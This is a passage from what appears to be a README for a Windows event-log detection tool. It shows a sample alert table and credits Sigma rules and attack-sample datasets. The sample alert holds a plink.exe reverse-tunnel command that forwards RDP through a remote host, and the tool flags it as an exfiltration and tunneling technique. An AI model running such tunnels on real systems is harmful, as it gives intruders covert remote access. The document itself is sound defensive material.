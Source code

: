 	[+] Detection: Suspicious Process Creation
	    ┌─────────────────────┬────┬──────────────────────────────────────────┬────────────────────────────────┬────────────────────────────────────────────────────┬────────────────────────────────────────────────────┐
	    │     system_time     │ id │             detection_rules              │         computer_name          │               Event.EventData.Image                │                    command_line                    │
	    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
	    │ 2019-02-16 10:02:21 │ 1  │ ‣ Exfiltration and Tunneling             │ "PC01.example.corp"            │ C:\Users\IEUser\Desktop\plink.exe                  │ plink.exe 10.0.2.18 -P 80 -C -R 127.0.0.3:4444:127 │
	    │                     │    │ Tools Execution                          │                                │                                                    │ .0.0.2:3389 -l test -pw test                       │

(Note: the system_time, event ID, detection_rule and computer name will always be shown in addition to the fields specified in the table_headers section) 

### Acknowledgements
 - [EVTX-ATTACK-SAMPLES](https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES) by [SBousseaden](https://twitter.com/SBousseaden)
 - [Sigma](https://github.com/SigmaHQ/sigma) detection rules
 - [EVTX parser](https://github.com/omerbenamram/evtx) library by [@OBenamram](https://twitter.com/obenamram?lang=en)
 - [TAU Engine](https://github.com/countercept/tau-engine) Library by [@AlexKornitzer](https://twitter.com/AlexKornitzer?lang=en)
